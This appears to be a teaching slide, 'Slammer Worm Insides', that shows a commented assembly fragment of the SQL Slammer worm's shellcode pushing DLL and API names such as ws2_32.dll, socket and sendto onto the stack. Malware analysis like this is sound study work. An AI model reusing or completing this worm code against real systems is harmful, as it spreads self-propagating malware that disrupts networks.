

# Slammer Worm Insides
set up a stack frame to store the following strings:
push 6C6C642Eh 	; [EBP-8]
push 32336C65h 	; [EBP-0Ch]
push 6E72656Bh 	; [EBP-10h] Push string kernel32.dll
push ecx 		; [EBP-14h]
push 746E756Fh	; [EBP-18h] Push string GetTickCount
push 436B6369h 	; [EBP-1Ch]
push 54746547h 	; [EBP-20h]
mov cx, 6C6Ch
push ecx 		; [EBP-24h]
push 642E3233h 	; [EBP-28h] Push string ws2_32.dll
push 5F327377h 	; [EBP-2Ch
mov cx, 7465h
push ecx ; [EBP-30h]
push 6B636F73h 	; [EBP-34h] Push string socket
mov cx, 6F74h
push ecx 		; [EBP-38h]
push 646E6573h 	; [EBP-3Ch] Push string sendto